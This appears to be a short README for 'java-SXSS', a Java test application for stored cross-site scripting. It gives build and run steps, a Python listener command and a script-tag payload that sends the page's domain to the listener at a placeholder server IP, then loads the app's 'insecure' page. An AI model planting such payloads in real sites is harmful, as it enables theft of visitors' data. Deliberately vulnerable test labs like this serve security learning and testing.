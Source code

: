# java-SXSS
Test Stored XSS

mvn package
docker-compose up
sleep 30
http://<server-ip>:8888/XSS/create

python -m SimpleHTTPServer 9000

<script>var a=new XMLHttpRequest();a.open("GET","http://<server-ip>:9000/?domain="+document.domain);a.send();</script>


http://<server-ip>:8888/XSS/insecure